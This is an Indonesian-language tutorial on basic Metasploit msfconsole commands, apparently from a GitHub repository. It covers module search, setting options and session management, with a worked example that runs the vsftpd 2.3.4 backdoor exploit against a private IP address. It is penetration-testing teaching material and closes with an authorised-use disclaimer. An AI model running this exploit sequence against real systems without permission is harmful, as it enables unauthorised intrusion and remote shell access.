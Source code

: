 # Perintah Dasar MSFconsole

## A. Pengantar

`msfconsole` adalah antarmuka CLI utama dalam Metasploit Framework. Untuk bisa menggunakan Metasploit secara efektif, penting untuk menguasai perintah-perintah dasarnya.

## B. Menjalankan msfconsole:

```
msfconsole
```

Setelah dijalankan, kamu akan masuk ke CLI Metasploit:

```
msf6 >
```

## C. Daftar Perintah Dasar yang Wajib Diketahui

| Perintah | Fungsi |
|:--:|:--:|
| `help` atau `?`	| Menampilkan semua perintah yang tersedia. |
| `search <keyword>` | Mencari `exploit`, `payload`, `auxiliary`, `dll`. |
| `use <nama_modul>` | Memilih modul tertentu untuk digunakan. |
| `info` |	Menampilkan informasi detail dari modul yang sedang dipilih. |
| `show options` | Menampilkan parameter yang bisa diatur pada modul. |
| `set <parameter> <nilai>` |	Mengatur parameter (contoh: `RHOSTS`, `LHOST`, `PAYLOAD`). |
| `unset <parameter>`	| Menghapus nilai parameter yang telah diatur. |
| `show payloads	`| Menampilkan semua payload yang kompatibel. |
| `show exploits`	| Menampilkan semua exploit yang tersedia. |
| `show auxiliary` | Menampilkan modul bantu seperti scanner. |
| `exploit` atau `run` | Menjalankan modul exploit. |
| `back` | Kembali ke menu utama dari modul. |
| `exit` atau `quit` | Keluar dari msfconsole. |

## D. Contoh Penggunaan Sederhana:

```
search vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor
show options
set RHOSTS 192.168.1.10
set LHOST 192.168.1.5
exploit
```

## E. Perintah Session

Jika exploit berhasil, biasanya akan membuka session:

| Perintah | Fungsi |
|:--:|:--:|
| `sessions` | Menampilkan daftar sesi aktif |
| `sessions -i <id>`	| Masuk ke session yang aktif |
| `background`	| Menyimpan session ke latar belakang |
| `sessions -k <id>` | Menghentikan session tertentu |

## Tips Tambahan

- Gunakan `tab` untuk auto-complete.
- Gunakan `Ctrl + C` untuk menghentikan exploit yang sedang berjalan.
- Gunakan `jobs` dan `kill <id>` untuk melihat dan menghentikan job background.

> Gunakan hanya untuk pembelajaran dan pada sistem yang kamu punya izin untuk uji coba.
